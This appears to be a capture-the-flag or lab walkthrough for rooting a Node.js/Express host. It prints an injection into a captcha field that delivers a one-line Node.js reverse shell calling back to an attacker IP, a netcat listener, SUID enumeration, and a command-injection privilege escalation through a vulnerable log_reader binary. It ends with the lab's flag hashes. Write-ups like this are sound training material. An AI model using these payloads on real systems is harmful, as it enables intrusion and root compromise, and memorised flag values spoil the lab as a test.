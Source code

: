 ```
Running all scans on 192.168.217.250

Host is likely running Unknown OS!

---------------------Starting Port Scan-----------------------

PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp
```

This isn't very descriptive so do a service scan
```
sudo nmap -sV -p22,5000 192.168.217.250
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Node.js (Express middleware)
```

Testing out the given site on port 5000, we find if we add a ' to the captcha that is added when submitting our checkout, we get a syntax error.

Let's see if we can get a reverse shell

Head to RevShells.com

We know it's node.js from our service scan so pick that. 

The first one doesn't give us anything so pick node.js #2.

Copy the revshell it gives you and remove the line returns to put it all on one line

```
(function(){var net = require("net"),cp = require("child_process"),sh = cp.spawn("sh", []);var client = new net.Socket();client.connect(80, "192.168.45.222", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;})()
```

Open NC
```
nc -nlvp 80
```

Go back to burpsuite from where you were searching the pages for SQLi and insert the payload
![[Pasted image 20240303004924.png]]

Send it and get the reverse shell
```
└─$ nc -nlvp 80
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:80
Ncat: Listening on 0.0.0.0:80
Ncat: Connection from 192.168.217.250:33590.
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-5.1$ whoami
whoami
observer
```

Search for SUID permissions
```
find / -perm -u=s 2>/dev/null | grep -v '^/proc\|^/run\|&/sys\|^/snap'
```

```
/usr/local/bin/log_reader
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/fusermount3
/usr/bin/newgrp
/usr/bin/bash
/usr/bin/umount
/usr/bin/su
/usr/bin/chsh
/usr/bin/mount
```

/usr/local/bin/log_reader looks a little off. No information available online via google.

Let's see if the source code that was used to compile it is still on the machine

```
find / -name log_reader.c 2>/dev/null
```

It is at /usr/share/src/log_reader.c

```
bash-5.1$ cat /usr/share/src/log_reader.c
cat /usr/share/src/log_reader.c
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[]) {

    if (argc != 2) {
        printf("Usage: %s filename.log\n", argv[0]);
        return 0;
    }

    char *filename = argv[1];
    char *result;
    result = checkExtention(filename, result);

    if (result != NULL) {
        readFile(filename);
    }

    return 0;
}

void checkExtention(char *filename, char *result) {
    char *ext = strchr(filename, '.');

    if (ext != NULL) {
        result = strstr(ext, ".log");
    }
}

void readFile(char *filename) {
    setuid(0);
    setgid(0);

    printf("Reading: %s\n", filename);

    char command[200] = "/usr/bin/cat ";
    char output[10000];
    FILE *result;

    strcat(command, filename);
    result = popen(command, "r");
    fgets(output, sizeof(output), result);
    printf("%s\n", output);
}
```

Looking at this code we can see filename is checked to make sure it has .log but otherwise, it's not sanitized.

Create a dummy file to read

```
bash-5.1$ echo 'hello' > test.log
```

`echo 'hello' > test.log`

See if we can add permissions to sh
```
bash-5.1$ /usr/local/bin/log_reader "test.log&&chmod u+s /bin/sh"
```
`
`/usr/local/bin/log_reader "test.log&&chmod u+s /bin/sh"`
`Reading: test.log&&chmod u+s /bin/sh`
`hello`

```
bash-5.1$ sh -p
sh -p
# whoami
whoami
root
```

Grab the flags
```cat /root/proof.txt
041ee57a2fc05dd43db1234a185fe334
cat /home/observer/local.txt
1334f75c46dde43f65635f721229c7ea```
